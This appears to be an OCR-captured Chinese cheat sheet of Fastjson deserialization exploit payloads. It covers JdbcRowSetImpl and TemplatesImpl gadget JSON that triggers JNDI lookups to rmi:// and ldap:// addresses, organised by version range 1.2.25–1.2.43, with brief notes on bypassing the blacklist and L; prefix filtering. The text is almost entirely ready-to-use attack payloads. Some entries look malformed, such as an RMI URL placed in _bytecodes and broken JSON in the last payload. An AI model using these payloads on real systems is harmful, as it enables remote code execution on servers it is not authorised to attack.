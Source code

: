 JDNI也支持ldap注入  
```
String payload = "{\r\n"
		+ " \"a\": {\r\n"
		+ " \"@type\": \"com.sun.rowset.JdbcRowSetImpl\", \r\n"
		+ " \"dataSourceName\": \"rmi://127.0.0.1:1089/Object\", \r\n"
		+ " \"autoCommit\": true\r\n"
		+ " }\r\n"
		+ "}";
```  
```
{    
"@type": "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",    
"_bytecodes": ["rmi://127.0.0.1:1089/Object"],    
"_name": "test",    
"_tfactory": {},    
"_outputProperties": {},
}
```  
### Fastjson1.2.25-1.2.41版本  
  
发现1.2.25  
版本增加了黑名单限制，autoType  
默认为关闭选项。  
```
{
"@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
"dataSourceName":"ldap://127.0.0.1/123",
"autoCommit":true
}
```  
  
### Fastjson1.2.42  
  
在开启AutoType的情况下，这个poc不可以使用，autoType首先对传入的@type做了一次匹配，如果开头与结尾为L;  
，则过滤掉该字符  
```
{       
	"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
	"dataSourceName":"ldap://127.0.0.1/123",
	"autoCommit":true
}
```  
### Fastjson1.2.43  
  
com.sun.rowset.JdbcRowSetImpl链绕过（需开启autoType），LL;;  
不可以使用  
```
{
"@type":"[com.sun.rowset.JdbcRowSetImpl"[
{
,"dataSourceName":"ldap://127.0.0.1/123",
"autoCommit":true
}
```  
  